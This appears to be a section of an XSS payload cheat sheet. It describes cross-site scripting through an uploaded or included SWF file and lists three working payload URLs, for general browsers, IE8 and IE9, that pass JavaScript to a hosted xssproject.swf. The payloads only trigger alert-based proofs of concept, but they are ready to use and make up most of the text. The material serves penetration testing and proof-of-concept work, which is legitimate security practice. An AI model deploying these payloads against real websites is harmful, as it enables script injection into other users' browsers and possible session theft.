 ### XSS via SWF

As you may already know, it is possible to make a website vulnerable to XSS if you can upload/include a SWF file into that website. I am going to represent this SWF file that you can use in your PoCs.
This method is based on [1] and [2], and it has been tested in Google Chrome, Mozilla Firefox, IE9/8; there should not be any problem with other browsers either.

```powershell
Browsers other than IE: http://0me.me/demo/xss/xssproject.swf?js=alert(document.domain);

IE8: http://0me.me/demo/xss/xssproject.swf?js=try{alert(document.domain)}catch(e){ window.open(‘?js=history.go(-1)’,’_self’);}

IE9: http://0me.me/demo/xss/xssproject.swf?js=w=window.open(‘invalidfileinvalidfileinvalidfile’,’target’);setTimeout(‘alert(w.document.location);w.close();’,1);
```